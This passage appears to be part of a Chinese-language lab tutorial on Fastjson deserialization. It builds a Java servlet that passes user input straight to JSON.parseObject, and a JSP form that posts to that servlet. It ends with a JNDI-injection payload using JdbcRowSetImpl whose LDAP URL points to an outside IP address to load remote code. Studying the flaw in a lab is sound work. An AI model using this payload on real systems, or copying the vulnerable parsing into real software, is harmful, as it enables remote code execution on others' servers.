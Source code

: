 ```java
package org.example.fastjsondi;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;

import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@WebServlet("/json")
public class FjWeb extends HttpServlet {
    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse res) {
        String jsondata = req.getParameter("jsondata");
        System.out.println(jsondata);
        JSONObject jo = JSON.parseObject(jsondata);
        System.out.println(jo);
    }
}
```

修改index.jsp，代码如下：

```jsp
<%@ page contentType="text/html; charset=UTF-8" pageEncoding="UTF-8" %>
<!DOCTYPE html>
<html>
<head>
    <title>JSP - Hello World</title>
</head>
<body>
<h1><%= "Hello World!" %>
</h1>
<br/>
<a href="hello-servlet">Hello Servlet</a>

<form action="http://localhost:8080/FastJsonDi_war_exploded/json" method="post">
    Please input jsondata:<input type="text" name="jsondata">
    <input type="submit" value="提交">
</form>

</body>
</html>
```

#### 漏洞利用尝试

直接把构造的payload填至输入框。

```html
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://47.83.186.173:1389/ejzqto","autoCommit":true}
```
